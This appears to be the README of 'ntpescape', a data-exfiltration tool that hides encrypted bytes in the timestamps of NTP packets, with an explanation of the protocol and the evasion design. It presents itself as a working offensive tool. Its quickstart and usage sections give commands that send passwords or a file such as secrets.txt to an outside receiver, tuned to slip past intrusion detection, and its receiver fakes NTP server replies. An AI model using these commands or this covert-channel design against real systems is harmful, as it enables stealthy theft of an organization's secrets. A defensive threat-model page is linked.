

`ntpescape`
===========

**A reasonably stealthy NTP data exfiltration client**

`ntpescape` is a tool that can stealthily 
(but slowly) exfiltrate data
from a computer using the Network Time Protocol (NTP).

See [here](doc/threatmodel_securitypolicy.md) for how to protect your organization against this!

It contains many features designed to make the exfiltration
very difficult to detect:
* **All messages are embedded within _legitimate_ NTP client
  packets, and no additional information is added to each** - message info is embedded within the last two bytes
  of the transmit timestamp, which in normal NTP packets is 
  very high-entropy (nearly random) due to the imprecision of
  most clocks.
* **All sent data is encrypted with a secret key so that:**
    * Defenders cannot detect data transfer because the data
      will appear statistically random, similar to the 
      least-significant bytes of the timestamp in normal
      NTP traffic, and
    * Defenders cannot read the transferred data even if they
      suspect exfiltration.
* **The receiver responds to all sent client packets as if it
  is a real NTP server, replying with realistic timestamps:**
    * The receiver even simulates its own updates, randomly
      selecting a Stratum 1 NTP server to pretend to "update"
      from periodically. It fills this information in its
      response packets as normal NTP servers would. 
    * All applicable data is randomized slightly to simulate
      real-world servers and to make it difficult to detect 
      `ntpescape` response packets with an IDS.
* **The sender leverages the (legitimate!) server responses
    to implement reliable data transfer, using each server
    response as an "acknowledgement".** 
    * It retries packets
        that failed to send.
* **The sender implements realistic NTP client request delays.**
    * The sender waits a random, configurable delay before 
      sending each packet to simulate a normal NTP daemon.
* **Encryption keys are hardcoded into each send / receive pair,
    but randomized at build time.**

Screenshots
-----------


_This client (actually sent at 18:15:10UTC) packet transmits 
the bytes 'hi'. Where's the data?_


_This response packet contains simulated and randomized
data to make it seem as legitimate as possible._

Table of Contents
-----------------
- [`ntpescape`](#ntpescape)
  - [Screenshots](#screenshots)
  - [Table of Contents](#table-of-contents)
  - [Quickstart](#quickstart)
  - [Detailed Usage](#detailed-usage)
    - [Sender](#sender)
    - [Receiver](#receiver)
  - [How it works](#how-it-works)
    - [NTP protocol basics](#ntp-protocol-basics)
    - [NTP packet structure](#ntp-packet-structure)
    - [Sender message embedding](#sender-message-embedding)
    - [Receiver operation](#receiver-operation)
    - [Reliable data transfer](#reliable-data-transfer)
  - [Limitations / Future Work](#limitations--future-work)

Quickstart
----------

Clone the repository and build:
```bash
git clone git@github.com:evallen/ntpescape.git
make build
```

Put the receiver executable `./bin/recv` on the server
you want to use to receive data. Then, run
```bash
sudo ./recv -d :123  # 123 is NTP port
```

Put the sender executable `./bin/send/` on the machine you
want to exfiltrate data from. Then run the following to 
quickly send data over NTP (not stealthily).
```bash
echo "hello, world" | ./send -d <put_server_here>:123 -tm 0 -tM 0
```

Detailed Usage
--------------

### Sender

Pass input to the sender through STDIN or a file.

`./send [-d string] [-f string] [-h] [-tM int] [-tm int]`

|Flag|Meaning|Description|
|----|-------|-----------|
|`-d string`| destination | the host to send NTP packets to (default `localhost:123`)|
|`-f string`| file | an optional file to exfiltrate from ('`-`' for STDIN) (default "`-`")|
|`-h`|help| print help|
|`-tM int`| maxdelay | the maximum time (secs. >= mindelay >= 0) between messages sent. 0 = no delay. (default 1024)|
|`-tm int`| mindelay | the minimum time (secs. >= 0) between messages sent. 0 = no delay. (default 64)|

Examples:
* Stealthy usage (most Linux distributions send NTP client requests with delays varying between 64 and 1024 seconds)
```
echo "important password" | ./send -d <server>:123 -tM 1024 -tm 64
```
* Send file
```
./send -d <server:123> -f secrets.txt
```
* Send immediately
```
echo "fast transfer" | ./send -d <server>:123 -tM 0 -tm 0
```
* Print help
```
./send -h
```

### Receiver

Output of sender goes to STDOUT or a file.

`./recv [-d string] [-f string] [-h]`

|Flag|Meaning|Description|
|----|-------|-----------|
|`-d string`| destination | what host and port to listen to, like `:123` (standard NTP port) (default "`:123`") |
|`-f string`| file | file path to also dump output to |
|`-h` | help | print help |

Examples:
* Normal usage (output to STDOUT) _(need `sudo` for privileged
  NTP port `123`)_
```
sudo ./recv
```
* Output to file
```
sudo ./recv -f received.txt
```
* Listen on different port (can avoid `sudo`)
```
./recv -d :50001
```
* Print help
```
./recv -h
```

How it works
------------

### NTP protocol basics

When a client wants to know the time, it sends a "client packet"
to an NTP server with its current time in the "transmission
timestamp". 

The NTP server receives the packet, fills in the time it
received the packet, fills in the rest of the fields with
various information (such as where the server gets its 
own time from), moves the original transmit timestamp into
the "origin timestamp", fills in a final transmission timestamp,
and then sends it back to the client.

### NTP packet structure

The structure of an NTP packet as defined in
[RFC 5905](https://datatracker.ietf.org/doc/html/rfc5905#section-7)
is shown below.

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode |    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                         Root Delay                            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                         Root Dispersion                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Reference ID                         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     Reference Timestamp (64)                  +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                      Origin Timestamp (64)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                      Receive Timestamp (64)                   +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                      Transmit Timestamp (64)                  +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
.                                                               .
.                    Extension Field 1 (variable)               .
.                                                               .
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
.                                                               .
.                    Extension Field 2 (variable)               .
.                                                               .
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Key Identifier                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                            dgst (128)                         |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+

                Figure 8: Packet Header Format
```

Most legitimate NTP client packets only have the first 8 bits 
and the transmit timestamp filled, where the transmit timestamp
contains the current client time at transmission. 

### Sender message embedding

We can only put data into the first 8 bits or the transmit
timestamp to keep the packet looking like a normal client request.

The first 8 bits are vital because they specify the type of packet,
so we must use the transmit timestamp.

The transmit timestamp has a seconds component (32 bits) and
a fractional component (32 bits). Most computers do not have
precise enough clocks to accurately fill the fractional component,
so the NTP RFC specifies those clients to randomly fill the 
bottom bits. 

**We can abuse this to hide our own data in those bits as long
as our data also seems random.**

We can do this by sending data two bytes at a time, encrypted, 
in the bottom two bytes of the transmit timestamp fractional
component. Encrypting our data makes it seem random, so it
is very hard to detect. We need a nonce for the encryption that
both sides know, so we use the rest of the timestamp for that since
it will not repeat for about ~136 years. 

The result is a legitimate NTP client request that contains 
hidden data in the random lower bits of the transmit timestamp.

### Receiver operation

The receiver receives these packets, decrypts the bottom two
bytes with the secret key it knows and the nonce derived from the
rest of the timestamp, and records the data.

It crafts a response packet to send back so that 
1. The NTP traffic looks normal to observers, and
2. The sender knows its message was correctly received.

The receiver fills in the receive time when it receives the packet,
fills in the root server info (see below), moves the client's
transmit timestamp to the origin timestamp, and fills in the
server's own time into the transmission timestamp at the very
end. This makes the packet a legitimate NTP response.

The receiver periodically simulates updating itself with root
servers. It does this by randomly picking a new root server IP
to use as its "Reference ID" field, and randomly generates new
values for the "Root Dispersion" and other fields. This makes
it hard for IDSes to detect any patterns unique to the `ntpescape`
responses.

### Reliable data transfer

The sender will send the same message over and over until it 
gets a valid response from the server (with typical delays
between each send, of course). After a certain number of
tries, it will give up.

Limitations / Future Work
-------------------------

* Data transfer can be very slow under stealthy 
  settings.
* Data transfer can be quicker but easy to detect
  (why does this machine want the time so often?)
* Future work could:
  * Abuse some of the security extensions to the protocol
    as legitimate additional space to hide data.
